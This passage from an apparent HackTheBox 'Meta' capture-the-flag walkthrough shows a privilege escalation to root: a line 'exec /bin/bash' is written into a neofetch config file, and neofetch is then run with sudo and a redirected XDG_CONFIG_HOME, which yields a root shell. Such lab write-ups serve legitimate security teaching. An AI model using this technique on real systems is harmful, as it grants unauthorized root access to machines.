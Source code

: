 ```bash
thomas@meta:~/.config/neofetch$ echo "exec /bin/bash" > config.conf 
thomas@meta:~/.config/neofetch$ XDG_CONFIG_HOME=/home/thomas/.config sudo neofetch
root@meta:/home/thomas/.config/neofetch# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we can grab our flag:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/8_0_root.png" width="90%"/>
</p>



